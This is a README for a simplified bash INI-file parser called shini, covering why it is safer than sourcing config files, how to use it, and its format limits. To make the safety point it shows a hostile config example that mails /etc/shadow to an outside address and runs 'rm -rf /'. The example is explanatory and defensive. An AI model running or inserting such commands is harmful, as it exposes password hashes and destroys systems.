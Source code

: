 shini
=====

A small, minimalist, <s>portable</s> <em>compatible</em><sup>1</sup> `/bin/bash` routine for reading of INI files.

<em><sup>1</sup> This script previously attempted to be "portable", that is to say - written in a manner that it would reliably have a good chance of running anywhere with no specific implementation coded inside. In order to gain usable performance on INI files bigger than "very small", it has since been modified to include shell specific implementation for recent versions of `bash` - considerably increasing performance at the cost of code complexity. Therefore, I am calling it 'compatible' herein.</em>

**NOTE** by pachi-belero: this fork contains a very simplified version of the original `shini` which disables callbacks and writing, and **supports only bash version 3** or newer.

## About

### What is `shini`?
As above. It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

[pachi-belero](https://github.com/pachi-belero/) has [forked to create a simplified version](https://github.com/pachi-belero/shini-simplified) which is specifically for `bash >= 3`.  If this better meets your needs, please embrace the nature of open-source and support his work!  (And send my blessings his way.)

### Is it slow?
Shell scripting was never designed with speed for this kind of processing in mind. That said, on recent versions of `bash` (version 3 or newer) the performance is quite acceptable.

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s:

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

### Why do I need it?
You probably don't. But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it. A better solution.

### So `shini` just makes my shell script secure?

Erm, no. Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shell-ini-parser.sh
sudo chmod 644 shell-ini-parser.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

**NOTE**: this section downloads and makes use of the original `wallyhall/shini` project, which has more tests and examples than this one. For `shini-simplified`, **bash must be used** instead of sh, and the output will differ slightly.

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just executed the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool. Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy. You can put the content of `shell-ini-parser.sh` inline with your own code (not recommended, but acceptable. Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shell-ini-parser.sh"
. "/usr/local/bin/shell-ini-parser.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments.

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing). Never forget you can't guarantee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function and (optionally) specify the specific INI section you're interested in. You can also optionally set the prefix used to name variables:

```
shini_parse_section "settings.ini"
shini_parse_section "settings.ini" "SomeSection"
shini_parse_section "settings.ini" "" "INI"
```

Bingo. All the variables found will be set in the form PREFIX__SECTION__NAME (note the double underscores and that PREFIX defaults to "SHINI"). Note that the variable names will always be uppercase.
A full (and simple) example can be found in `example.sh`. You can run `. ./example.sh` and see the new variables set, such as SHINI__SECTION1__NAME.

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line. Anything is valid, except double quotes and semi-colons. Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values. Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value. Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
